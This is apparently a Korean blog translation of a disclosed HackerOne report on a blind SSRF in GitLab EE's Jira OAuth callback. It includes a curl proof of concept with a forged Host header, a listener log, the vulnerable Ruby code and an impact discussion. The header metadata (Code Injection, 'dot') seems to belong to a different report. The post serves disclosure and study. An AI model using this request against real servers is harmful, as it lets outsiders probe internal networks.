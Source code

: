 ```yaml
---
layout: post
title: OAuth Jira 권한부여 컨트롤러 안의 인증되지 않은 blind SSRF
categories: PoC
tags: [Bugbounty, SSRF, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Cristian-Alexandru Staicu (cris_semmle)] https://hackerone.com/reports/390929

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 3일 오후 7시 16분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 소스코드는 dot의 자산입니다. 취약점의 종류는 Code Injection이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 7.4/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
`Oauth::Jira::AuthorizationsController#access_token` 엔드포인트는 blind SSRF 공격에 취약합니다. 이 취약점은 GitLab 인스턴스의 네트워크 상에서 공격자로 하여금 임의의 HTTP/HTTPS 요청을 보내게 합니다.

# 개념 증명(PoC)
공격을 수행하기 위해서는 아래의 단계를 밟아주세요:
* GibLab EE 인스턴스를 최신 버전(11.2.1-ee)으로 업데이트 시켜주세요.
* 아래와 같이 POST요청을 /-/jira/login/oauth/callback 엔드포인트로 보냅니다. 요청에는 HOST 헤더에 당신이 보내고 싶은 hostname / IP 주소, 포트넘버를 적습니다.
{% highlight text %}
curl -X POST -H 'Host: 162.243.147.21:81' 'https://gitlab.com/-/jira/login/oauth/access_token'
{% endhighlight %}
* 162.243.147.21:81로 들어가는 POST 요청을 관찰합니다(여기서는 HTTPS):
{% highlight text %}
Listening on [0.0.0.0] (family 0, port 81)
Connection from [35.231.137.154] port 81 [tcp/*] accepted (family 2, sport 58558)
��ؒ����
��/$����4�i�,�֟J%>�+�/�,�0�����#�'�    ��$�(�
�gk39@j28��<=/5�l162.243.147.21

 Connection closed, listening again.
{% endhighlight %}
- - -

# 취약한 코드
다음의 코드는 `Oauth::Jira::AuthorizationsController#access_token` 메소드에서 발견됩니다.
{% highlight python %}
def access_token
  auth_params = params
                  .slice(:code, :client_id, :client_secret)
                  .merge(grant_type: 'authorization_code', redirect_uri: oauth_jira_callback_url)

  auth_response = Gitlab::HTTP.post(oauth_token_url, body: auth_params, allow_local_requests: true)
  token_type, scope, token = auth_response['token_type'], auth_response['scope'], auth_response['access_token']

  render text: "access_token=#{token}&scope=#{scope}&token_type=#{token_type}"
end
{% endhighlight %}

`GItlab::HTTP.post`함수는 oauth_token_url을 직접적으로 매개변수로써 사용하고 있습니다. 이 `_url Rails routing helper`는 (필요하다면) Host헤더가 URL을 구성할 때 쓰입니다. 왜냐하면 모든 호스트는 GitLab에서 받아들여질 수 있고, 구성된 URL은 내부 시스템으로 향할 수 있기 때문입니다. 이것은 원래 이렇게 수행하도록 만들어졌습니다. 그러나(그러한 이유로), Host 헤더는 공격자의 임의적인 요청이 수행되는 것을 피할 수 있도록 post 요청을 수행하기 전에 체크를 해야합니다.
- - -
# 영향
서버의 응답은 사실상 해석(interpreted)되긴 하지만, 이것은 access_token, scope, token_type으로 리턴이 되는 JSON 응답으로 제한되어있습니다. 그러나, 이것은 인스턴스의 네트워크상의 인증되지 않은 엔드포인트가 있을 수 있기 때문에 생각지못한 결과를 가져올 수 있습니다. 공격 가능성이 낮고, 이러한 이유로 공격 복잡도가 높게 설정된 이유입니다. 가용성 문제에 크지 않은 영향을 끼칠 수 있는데, 이것은 60초`(curl -X POST -H ‘Host: 162.243.147.21:81’ 0.03s user 0.01s system 0% cpu 1:00.76 total)`로 설정된 TCP 읽기 타임아웃에 의한 쓰레드 동작의 정지 때문입니다(원문: because a thread is blocked on the TCP read timeout, which is set to 60 seconds). 무결성에는 영향을 많이 미치지만 이것은 다른 내부 서비스에 접속(원문: internal services can be hit)되는 것과 같은 부가적인 요인에 의해서 발생되는 것 입니다. 함수를 호출하기 위해 일반 사용자는 인증될 필요는 없습니다.